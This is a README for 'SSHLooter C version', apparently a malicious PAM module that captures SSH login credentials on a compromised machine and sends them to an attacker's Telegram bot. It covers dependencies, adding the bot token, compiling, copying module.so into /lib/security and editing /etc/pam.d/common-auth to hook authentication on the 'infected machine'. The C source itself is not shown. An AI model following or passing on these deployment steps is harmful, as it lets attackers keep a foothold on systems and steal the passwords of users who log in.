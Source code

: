 # SSHLooter C version
It's the C version of [sshLooter](https://github.com/mthbernardes/sshLooter), which was written in python and have a lot of dependencies to be installed on the infected machine.
Now with this C version, you compile it on your machine and send it to the infected machine without installing any dependencies.

# Dependencies
* gcc
* libcurl4-openssl-dev
* libpam0g-dev

# Configure
Edit the `looter.c` and add your telegram bot token and either your user id or chat id.

# Compiling
```bash
make
```

# Usage
Copy the `module.so` to the infected machine on `/lib/security`, then edit the `/etc/pam.d/common-auth` and add the following lines.
```
auth optional module.so
account optional module.so
```
